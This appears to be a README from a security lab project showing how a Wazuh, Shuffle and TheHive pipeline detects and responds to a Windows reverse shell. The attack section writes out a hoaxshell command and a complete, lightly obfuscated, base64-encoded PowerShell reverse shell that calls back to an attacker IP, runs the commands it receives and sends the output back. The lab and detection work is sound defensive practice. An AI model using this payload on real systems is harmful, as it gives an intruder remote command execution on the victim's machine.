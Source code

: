 # Reverse Shell Execution

## Objective
Detect a suspicious external connection that opens a reverse shell from a Windows system.

## Course of attack
Attacker use hoaxshell to generate payload in Kali. Then this payload has to be included in to the PowerShell script. After its execution, attacker can get an access to command line of Windows.  
**Tool**: hoaxshell  
**Command**: `python3 hoaxshell.py -s 192.168.69.200 -r -H "Authorization"`  
**Tool**: PowerShell  
**Scrypt**: 
`$command = @'
$s='192.168.69.200:8080';$i='197e9fb0-2a86272c-0e33a75c';$p='http://';$v=Invoke-WebRequest -USEBaSicparsing -Uri $p$s/197e9fb0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-Web''Request -USEBaSicparsing -Uri $p$s/2a86272c -Headers @{"Authorization"=$i}).Content;if ($c -ne 'Hello') {$r=ie''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -Inpu''tObject $r;$t=Invoke-WebR''equest -Uri $p$s/0e33a75c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
'@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -encodedCommand $encodedCommand`  

## Response
- Wazuh Agent detected login errors in Windows event logs by Sysmon and sent a custom rule “Multiple network connection initiated by PowerShell” to Wazuh.
- Wazuh uses configured Webhook to send alert to the Shuffle.
- After receiving a notification in Shuffle, the configured response scenario is automatically launched:
  - Creating alert in TheHive
  - Adding IP of attacker as observable to allert
  - Creating case with observable in TheHive
  - Sending notification to Discord Bot
- In TheHive, IP can be sent to check it with AbuseIPDB or VirusTotal


## Shuffle Workflow
![](../images/shuffle-workflow-reverse-shell.png)
